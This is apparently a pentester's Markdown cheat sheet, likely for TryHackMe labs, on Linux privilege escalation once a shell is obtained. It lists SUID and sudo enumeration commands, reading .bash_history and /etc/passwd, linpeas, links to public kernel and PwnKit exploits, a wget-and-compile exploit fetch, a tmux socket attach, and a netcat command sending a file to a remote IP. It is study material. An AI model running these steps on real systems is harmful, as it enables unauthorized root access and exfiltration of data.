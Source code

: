 
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
    - Manual Vector Finding
        - find / -perm /4000 2>/dev/null
        - find / -type f -user root -perm -u=s 2>/dev/null
        - find / -perm -u=s -type f 2>/dev/null
        - sudo -l
        - sudo -V
        - cat .bash_history
        - cat /etc/passwd    
    - Using kit
        - [linpeas.sh] Auto Vector Finding
- Maintain Access    
TOOLS
- Exploit
- GTFOBins
- Python Library Hijacking
- Environment variables
OUPUT:
- root shell


## Exploit
[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[CVE-2017-0143]
    https://www.exploit-db.com/exploits/43970
[CVE-2014-4014]
    https://www.exploit-db.com/exploits/33824
[GTFOBins]
    https://gtfobins.github.io/
[$PATH]
    Linux Privilege Escalation Using PATH Variable
[tmux]
    tmux -S default attach

## Transferring file using Netcat:
- on the remote host 
    nc 10.8.56.2 443 < tryhackme.asc
- on the local host
    sudo nc -lvnp 443 > tryhackme.asc




